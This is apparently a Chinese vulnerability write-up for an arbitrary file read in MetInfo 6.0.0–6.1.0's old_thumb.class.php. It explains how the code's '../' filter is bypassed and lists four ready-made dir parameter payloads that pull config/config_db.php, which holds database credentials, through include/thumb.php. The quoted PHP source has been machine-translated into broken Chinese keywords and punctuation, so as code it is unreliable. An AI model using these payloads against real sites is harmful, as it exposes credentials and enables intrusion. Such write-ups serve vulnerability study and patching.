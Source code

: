 ```yaml
---
title: Metinfo任意文件读取
id: zhfly3017
---
```


# MetInfo 任意文件读取

## 一、漏洞简介

MetInfo是一套使用PHP和Mysql开发的内容管理系统。 MetInfo 6.0.0~6.1.0版本中的 old_thumb.class.php文件存在任意文件读取漏洞。攻击者可利用漏洞读取网站上的敏感文件

## 二、漏洞影响

MetInfo 6.0.0
MetInfo 6.1.0

## 三、复现过程

### 漏洞分析

进攻分析
看下\MetInfo6\app\system\include\module\old_thumb.class.php

```
<？php 
＃MetInfo企业内容管理系统
＃版权所有（C）MetInfo Co.，Ltd（http://www.metinfo.cn）。版权所有。

define（‘IN_MET’）或 退出（‘No权限’）;

load :: sys_class（‘web’）;

class  old_thumb  扩展了 网络 {

```
 公共 功能 doshow （） { 全局 $ _M;

    $ DIR = str_replace函数（'../' ，''，$ _GET [ '目录' ]）;

    if（strstr（str_replace（$ _ M [ 'url' ] [ 'site' ]，''，$ dir），'http'））{ 
        header（“ Content-type：image / jpeg”）; 
        ob_start（）; 
        readfile（$ dir）; 
        ob_flush（）; 
        flush（）; 死 ;         }

    if（$ _M [ 'form' ] [ 'pageset' ]）{ 
      $ path = $ dir。“＆met-table = {$ _ M ['form'] ['met-table']}＆met-field = {$ _ M ['form'] ['met-field']}”“；

    } else { 
      $ path = $ dir; 
    } 
    $ image = thumb（$ path，$ _ M [ 'form' ] [ 'x' ]，$ _ M [ 'form' ] [ 'y' ]）; if（$ _M [ 'form' ] [ 'pageset' ]）{           $ img = explode（'？'，$ image）;           $ img = $ img [ 0 ];         } else {           $ img = $ image;         } if（$ img）{             header（“ Content-type：image / jpeg”）;             ob_start（）;

        readfile（PATH_WEB.str_replace（$ _ M [ 'url' ] [ 'site' ]，''，$ img））; 
        ob_flush（）; 
        flush（）; 
    }

} 
```

} `＃此程序是一个开放源代码系统，可用于商业用途，请自觉购买商业许可证。

＃版权所有（C）MetInfo Co.，Ltd.（[http://www.metinfo.cn](http://www.metinfo.cn)）。版权所有。

？>` 
```

从代码中看用看到，$dir直接由$_GET['dir']传递进来，并将../置空。目标是进入到第一个，如果里面的readfile($dir);，读取文件。看看如果语句的条件，的英文外面一个strstr函数，判断$dir中http字符串的首次出现位置，实质上，要进入到这个if语句里面，$dir中必须包含http字符串。里面的将$dir中包含$_M['url']['site']的部分放置空，这里可以不用管。

![image](../img/2879451a2cb8d0b4eba5094853878bba.png)

从上面的分析可以构造出有效负载，只要$dir里包含http字符串就可以进入到readfile函数从而重新读取任意函数，然后可以使用..././来进行目录替换，因为../会被置空，所以最终payload如下

```
?dir=..././http/..././config/config_db.php 
```

```
?dir=.....///http/.....///config/config_db.php 
```

```
?dir=http/.....///.....///config/config_db.php 
```

```
?dir=http\..\..\config\config_db.php 
```

### 漏洞复现

要先找到调用old_thumb.class.php的文件，看到include/thumb.php，可以从这个文件里面进入到old_thumb.class.php

```
<?php
# MetInfo Enterprise Content Management System
# Copyright (C) MetInfo Co.,Ltd (http://www.metinfo.cn). All rights reserved.
define('M_NAME', 'include');
define('M_MODULE', 'include');
define('M_CLASS', 'old_thumb');
define('M_ACTION', 'doshow');
require_once '../app/system/entrance.php';
# This program is an open source system, commercial use, please consciously to purchase commercial license.
# Copyright (C) MetInfo Co., Ltd. (http://www.metinfo.cn). All rights reserved.
?> 
```

所以我们通过thumb.php将构造好的$dir传入即可。

![image](../img/c9fdcf84533ff1258e58d3fc3eeaa2ad.png)

可以看到成功的读取到了config/config_db.php的内容。